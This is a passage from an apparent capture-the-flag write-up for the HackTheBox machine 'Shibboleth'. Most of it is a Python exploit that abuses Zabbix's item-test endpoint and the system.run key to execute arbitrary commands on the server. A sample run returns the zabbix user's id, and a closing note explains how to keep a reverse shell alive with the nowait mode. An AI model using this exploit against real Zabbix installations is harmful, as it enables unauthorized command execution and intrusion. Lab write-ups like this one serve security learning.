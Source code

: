 ```py

def exploit(payload):
    data = {"key": f"system.run[{payload}]", "delay": "", "value_type": 3, "item_type": 0, "itemid": 0,
            "interfaceid": 0, "get_value": 1, "interface[address]": "127.0.0.1", "interface[port]": 10050,
            "proxy_hostid": 0, "show_final_result": 1, "test_type": 0, "hostid": t.hostid[0][0], "valuemapid": 0, "value": ""}
    rce = s.post(f'{url}/zabbix.php?sid={t.sid[0]}&action=popup.itemtest.send', data=data)
    return rce.text


payload = sys.argv[1]
output = json.loads((exploit(payload)))
print('[+] Payload output')


if "value" in output:
    print(output["value"])
else:
    print(output)


s.close()
```

Exploit in action
```bash
❯ python exploit.py 'id'
/** Author: x00tex(poorduck) **/
[+] All Hosts
shibboleth.htb:10084
[+] Payload output
uid=110(zabbix) gid=118(zabbix) groups=118(zabbix)
```

There is a problem when i try to get reverse shell on the box, the shell dies immediately. If we read through the zabbix agent [docs](https://www.zabbix.com/documentation/2.4/manual/config/items/itemtypes/zabbix_agent) in "system.run" they specify 2 modes and default mode is "`wait`" which wait for the command output and display the output and "`nowait`" just execute and return 1 if command executes and 0 if not and move on.

![](/assets/img/posts/shibboleth/rev-shell.png)
